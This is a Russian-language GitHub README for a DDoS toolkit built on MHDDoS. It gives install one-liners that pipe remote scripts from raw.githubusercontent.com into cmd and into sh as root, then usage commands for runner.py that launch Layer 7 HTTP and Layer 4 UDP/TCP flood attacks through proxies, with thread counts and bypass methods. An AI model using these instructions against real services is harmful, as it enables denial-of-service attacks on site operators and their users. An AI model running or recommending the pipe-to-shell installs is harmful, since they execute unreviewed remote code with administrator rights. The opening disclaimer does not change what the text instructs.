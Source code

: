 # scripts


                                          ❗❗❗❗❗ДИСКЛЕЙМЕР❗❗❗❗❗
                                  ❗Данный софт предоставлен в ознакомительных целях. ❗
                                  ❗Автор не несёт ни какой ответственности за выполняемый код.❗
                                  ❗Все действия вы производите на свой страх и риск.❗



Для установки на Windows:
1) Запустите cmd от администратора
2) Выполните команду  curl -s https://raw.githubusercontent.com/mr-kritik/scripts/main/install.bat | cmd

Для установки на Kali Linux :
1) Открываем консоль
2) sudo su
3) wget -O - https://raw.githubusercontent.com/mr-kritik/scripts/main/start_install_linux.sh | sh


Дождитесь полной установки!
На Windows будет установлен Docker, Python v.3, Git + сам софт для атаки.
На Linux будет установлено wget, Python v.3, git, Docer + сам софт для атаки.

На windows создастся папка C:\VZ
На Linux в вашей домашней папке создастся папка VZ

                                                      ЗАПУСК СОФТА
                                        1. Более лояльный, менее агрессивный.
WINDOWS : Запускаем cmd/консоль от администратора/root (sudo su), переходим в папку cd C:\VZ
LINUX : cd $HOME/VZ

WIN LINUX: python3 runner.py <Цель> --http-methods <Метод> -t <Угрозы> --rpc <Подключения> -p <Обновление> --debug



	Где :
		a) Цель – Это ссылка в формате https://example.com
		b) Метод (--http-methods) – Один из методов MHDDoS (CFB, DGB, BYPASS, GET  и т.д., подробнее о методах будет ниже).
		c) Угрозы (-t) – Количество запросов/пакетов на цель (1 ядро = 1000).
		d) Подключения(--rpc) – Количество запросов, отправляемых на 1 прокси-сервер, после чего прокси-сервер транслирует эти запросы на цель.
		f) Обновление (-p) – Период времени в секундах, через который ваше соединение с прокси-серверами будет обновляться (прокси-серверы имеют свойства падать, сбрасывать соединение и т.д.). По умолчанию 900 секунд / 15 минут.
		g) --debug – Нужен для того, чтобы мы видели лог атаки (информация по выводу будет ниже). 


Методы Атаки:

Атака на Layer 7 (HTTP(S) по URL) 

python3 runner.py https://example.com https://example1.com -t 1000 --debug

Атака на Layer 7 (HTTP по IP + PORT)
python3 runner.py 192.168.2.1:443 192.168.1.1:80 -t 1000 --debug

Атака на Layer 4 (по UDP адресам)
ВНИМАНИЕ НУЖНО ВПН ПОДКЛЮЧЕНИЕ!!!!!!!!!
python3 runner.py udp://192.168.2.10:53 -t 1000 --debug

Комбинированая атака
python3 runner.py tcp://192.168.2.10:53 https://example1.com 




Вывод из атаки :
PPS - количество установленных соединений с целью атаки
BPS - вес пакетов в байтах, килобайтах, мегабайтах. Оптимально в районе 500 Кб. Может быть и меньше, а может быть гораздо больше. Главное не = 0
% - когда произойдёт смена прокси в %
